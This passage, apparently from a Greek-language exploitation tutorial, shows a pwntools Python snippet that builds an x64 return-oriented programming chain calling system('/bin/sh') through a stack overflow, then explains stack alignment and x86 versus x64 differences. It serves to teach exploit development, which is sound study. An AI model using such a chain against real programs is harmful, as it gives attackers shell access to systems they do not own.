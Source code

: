 ```python
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
ret_gadget,        # Alignment gadget, if needed
pop_rdi_gadget,    # pop rdi; ret
bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
In this example:

* Χρησιμοποιούμε το **`pop rdi; ret`** gadget για να ορίσουμε το **`RDI`** στη διεύθυνση του **`"/bin/sh"`**.
* Κάνουμε άμεση μετάβαση στο **`system()`** μετά την ρύθμιση του **`RDI`**, με τη διεύθυνση του **system()** στην αλυσίδα.
* Το **`ret_gadget`** χρησιμοποιείται για ευθυγράμμιση αν το περιβάλλον στόχος το απαιτεί, το οποίο είναι πιο συνηθισμένο σε **x64** για να διασφαλιστεί η σωστή ευθυγράμμιση της στοίβας πριν από την κλήση συναρτήσεων.

### Stack Alignment

**Η x86-64 ABI** διασφαλίζει ότι η **στοίβα είναι ευθυγραμμισμένη στα 16 byte** όταν εκτελείται μια **εντολή κλήσης**. **LIBC**, για να βελτιστοποιήσει την απόδοση, **χρησιμοποιεί εντολές SSE** (όπως **movaps**) που απαιτούν αυτή την ευθυγράμμιση. Αν η στοίβα δεν είναι σωστά ευθυγραμμισμένη (σημαίνει ότι το **RSP** δεν είναι πολλαπλάσιο του 16), οι κλήσεις σε συναρτήσεις όπως το **system** θα αποτύχουν σε μια **ROP αλυσίδα**. Για να το διορθώσετε, απλά προσθέστε ένα **ret gadget** πριν από την κλήση του **system** στην ROP αλυσίδα σας.

## x86 vs x64 κύρια διαφορά

{% hint style="success" %}
Δεδομένου ότι το x64 χρησιμοποιεί καταχωρητές για τα πρώτα λίγα επιχειρήματα, συχνά απαιτεί λιγότερα gadgets από το x86 για απλές κλήσεις συναρτήσεων, αλλά η εύρεση και η αλυσίδωση των σωστών gadgets μπορεί να είναι πιο περίπλοκη λόγω του αυξημένου αριθμού καταχωρητών και του μεγαλύτερου χώρου διευθύνσεων. Ο αυξημένος αριθμός καταχωρητών και ο μεγαλύτερος χώρος διευθύνσεων στην αρχιτεκτονική **x64** παρέχουν τόσο ευκαιρίες όσο και προκλήσεις για την ανάπτυξη εκμεταλλεύσεων, ειδικά στο πλαίσιο του Return-Oriented Programming (ROP).
{% endhint %}

## Protections
